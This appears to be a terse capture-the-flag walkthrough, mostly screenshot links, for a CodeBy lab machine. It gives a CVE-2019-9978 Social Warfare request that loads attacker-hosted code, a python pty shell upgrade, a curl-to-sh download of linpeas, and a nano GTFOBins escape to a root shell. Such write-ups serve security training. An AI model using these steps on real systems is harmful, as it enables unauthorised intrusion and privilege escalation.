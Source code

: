![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a3192bd-a9f7-4d49-8f55-cd7d413a3030)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/35afcfd3-c02c-428e-9a51-6170cbdc4c9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcf4b7cd-4083-4f46-acd5-abf2caea684b)

https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d72555fb-cdea-465f-b7ef-88f3b3a0e9c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f375f35-83c9-4ccf-8a0a-10fa53f67418)

http://62.173.140.174:18500/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP:8000/test1.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3459d5a4-270b-45bd-b2dd-d2a41ec791f2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/50aef2fe-4e4f-4a44-bfec-e13b2ad3bce2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc8893b3-2b6e-4cfd-b73e-5d6befc39067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aaa34946-da07-4486-a3da-e44dacb237de)

python3 -c 'import pty; pty.spawn("/bin/bash")'

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fbec7dca-fa7a-4af9-8552-6ffd26e251fd)

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/477c0f35-9c63-43e8-aa78-b7f8706a03a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/335aba48-2e63-4e31-91da-5d0e2f11e95e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c08cd01d-b873-4a3d-b91e-bcf9d46d57ec)

https://gtfobins.github.io/gtfobins/nano/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/610b153b-5db5-4261-b0c4-bacb185c25a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/def0b1fa-f68b-4bd6-bd28-db7cae2a4c0a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e933bf3a-2280-44e7-98cc-186d0dc29943)

^R^X

reset; sh 1>&0 2>&0

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44964b5b-bb9b-4a36-953d-32a149a49b47)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e75a7d5-6e4e-4163-b967-b9fd69d444ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fac8a32b-afa7-48cf-87ac-9ec865660f42)



